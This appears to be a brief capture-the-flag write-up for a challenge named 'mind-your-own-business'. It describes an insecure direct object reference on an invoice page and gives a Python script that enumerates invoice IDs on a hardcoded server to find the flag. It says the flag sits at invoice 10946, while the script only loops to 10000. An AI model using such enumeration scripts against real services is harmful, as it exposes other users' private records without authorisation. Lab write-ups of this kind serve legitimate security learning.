 Get the flag from mind-your-own-business.

We enter on the subscription page, then we fill in the credintials.
We observe after that after the creditential completion is good, the page redirect us to a invoice page.
If we change the invoice page index we then observe we get more invoicees but some of them are "Oops, no invoice".

So then we have to test all the invoices to check in which page we get the "SSS", which is at the page 10946. 


import requests
import re


start = 1
end = 10000

session = requests.Session()

for invoice_id in range(start, end + 1):
    url = f"http://141.85.224.70:8085/invoice.php?invoice={invoice_id}"
    print(f"🔎 Verific {url}")

    try:
        response = session.get(url, timeout=5)
    except Exception as e:
        print(f"⛔ Eroare la {url}: {e}")
        continue


    if "Oops! Invoice not found!" in response.text:
        continue


    match = re.search(r"SSS\{.*?\}", response.text)
    if match:
        flag = match.group(0)
        print(f"\n🎯 FLAG la invoice={invoice_id}: {flag}\n")


        with open(f"invoice_{invoice_id}.html", "w", encoding="utf-8") as f:
            f.write(response.text)

        break
